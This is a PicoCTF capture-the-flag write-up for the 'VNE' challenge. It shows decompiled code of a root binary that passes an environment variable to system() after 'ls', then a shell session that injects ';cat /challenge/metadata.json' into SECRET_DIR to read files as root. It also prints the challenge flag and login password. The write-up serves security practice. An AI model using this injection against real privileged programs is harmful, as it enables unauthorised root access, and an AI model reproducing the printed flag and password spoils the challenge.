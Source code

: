 ```yaml
---
title: PicoCTF - VNE
tags: [PicoCTF, PWN, CTF]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - VNE
<!-- more -->

## Background
System Environment
Command Injection

## Description & Hint
We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53176, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
* Hint 1: Have you checked the content of the /root folder
* Hint 2: Find a way to add more instructions to the ls

## Source Code
:::spoiler IDA Main Function
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int v4; // ebx
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  const char *v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  char v12; // [rsp+3h] [rbp-6Dh] BYREF
  unsigned int v13; // [rsp+4h] [rbp-6Ch]
  char *v14; // [rsp+8h] [rbp-68h]
  char v15[32]; // [rsp+10h] [rbp-60h] BYREF
  char v16[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v17; // [rsp+58h] [rbp-18h]

  v17 = __readfsqword(0x28u);
  v14 = getenv("SECRET_DIR");
  if ( v14 )
  {
    v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Listing the content of ");
    v6 = std::operator<<<std::char_traits<char>>(v5, v14);
    v7 = std::operator<<<std::char_traits<char>>(v6, " as root: ");
    std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
    std::allocator<char>::allocator(&v12);
    std::string::basic_string(v16, v14, &v12);
    std::operator+<char>(v15, "ls ", v16);
    std::string::~string(v16);
    std::allocator<char>::~allocator(&v12);
    setgid(0);
    setuid(0);
    v8 = (const char *)std::string::c_str(v15);
    v13 = system(v8);
    if ( v13 )
    {
      v9 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: system() call returned non-zero value: ");
      v10 = std::ostream::operator<<(v9, v13);
      std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
      v4 = 1;
    }
    else
    {
      v4 = 0;
    }
    std::string::~string(v15);
  }
  else
  {
    v3 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: SECRET_DIR environment variable is not set");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    return 1;
  }
  return v4;
}
```
:::

## Recon
這一題也是蠻有趣的，題目有說要先執行bin，可以用winscp遠端把執行檔dump到local端，然後用IDA逆一下，就會發現它其實就是執行ls而已，所以我們就要用簡單的command injection達到RCE

## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 58395
$ ./bin
Error: SECRET_DIR environment variable is not set
$ export SECRET_DIR=/challenge/
$ ./bin
Listing the content of /challenge/ as root:
config-box.py  metadata.json  profile
$ export "SECRET_DIR=/;cat /challenge/metadata.json"
$ ./bin
Listing the content of /;cat /challenge/metadata.json as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
{"flag": "picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}", "password": "d137d16e"}
```

Flag: `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`